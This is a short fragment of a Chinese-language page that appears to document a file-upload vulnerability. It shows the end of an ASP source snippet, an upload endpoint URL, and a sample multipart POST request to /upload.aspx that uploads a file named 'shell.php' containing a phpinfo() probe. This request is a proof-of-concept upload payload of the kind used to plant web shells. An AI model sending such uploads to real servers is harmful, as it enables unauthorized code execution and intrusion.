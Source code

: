 ```asp
    body = body + message + "}";



   //message =  Request.Headers.Get("Content-Type");

    Response.AddHeader("Content-Type","application/json;charset=UTF-8");
    Response.Write(message);
    Response.Flush();
     //Response.Write(Request.Params.Get("a"));

%>
```

### 请求地址（文件上传）

http://test.iis7.com/upload.aspx

### 报文示例

```
POST /upload.aspx HTTP/1.1
Host: test.iis7.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUYewxBazVTg3pqN2
Content-Length: 158

------WebKitFormBoundaryUYewxBazVTg3pqN2
Content-Disposition: form-data; name="file"; filename="shell.php"

<?php phpinfo(); ?>
------WebKitFormBoundaryUYewxBazVTg3pqN2--
```

![image-20230217140913006](static/img/63ef1a0af144a0100726dfeb.png)
